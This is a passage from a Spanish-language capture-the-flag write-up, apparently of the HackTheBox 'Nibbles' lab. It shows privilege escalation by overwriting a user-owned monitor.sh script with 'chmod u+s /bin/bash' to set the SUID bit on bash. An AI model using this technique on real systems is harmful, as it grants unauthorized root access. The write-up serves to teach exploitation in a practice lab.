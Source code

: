 ```bash
nibbler@Nibbles:/home/nibbler$ ls -l
total 8
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Feb 13 18:04 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip  
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

Revisamos los permisos del archivo `monitor.sh` el cual somos el propietario, y el contenido de este mismo.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh | head -n 20
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using
```

Dado que somos el propietario de este script, lo que podemos realizar es modificarlo para que realice otra acción diferente a la que estaba pensada originalmente.

En nuestro caso, modificaremos el script para que convierta el binario `/bin/bash`en `SUID`.  Le daremos los permisos correspondientes para que pueda ser ejecutado.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
#!/bin/bash

chmod u+s /bin/bash 

nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 34 Feb 14 13:10 monitor.sh
```
